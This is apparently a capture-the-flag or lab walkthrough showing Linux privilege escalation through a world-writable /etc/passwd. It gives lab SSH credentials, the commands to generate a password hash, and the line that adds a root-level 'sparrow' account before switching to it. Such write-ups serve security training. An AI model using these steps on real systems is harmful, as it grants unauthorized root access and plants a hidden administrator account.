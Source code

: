 # Name: Web: Privilege Escalation: Writable

## Vulnerability

Writable ```/etc/passwd``` file.

## Exploit

Connect with ssh to user ```jack:YvFWPeC7sTWJdaYQ```, port 2022.

```ssh jack@<IP> -p 2022```

If you look at the ```/etc/passwd``` file we can see that our user account has read/write access.

```ls -la /etc/passwd```

What we can do is to generate a new password using one of the following commands:

```mkpasswd -m SHA-512 sparrow```

```python2 -c 'import crypt; print crypt.crypt("sparrow", "$6$salt")'```

This will generate to you a new password which we will write to ```/etc/passwd``` file.

Add the following line:

```sparrow:GENERATED_PASSWORD:0:0:Sparrow:/root:/bin/bash```

Now you can switch the current user to the privileged ```sparrow``` user:

```su sparrow```

And you are root!

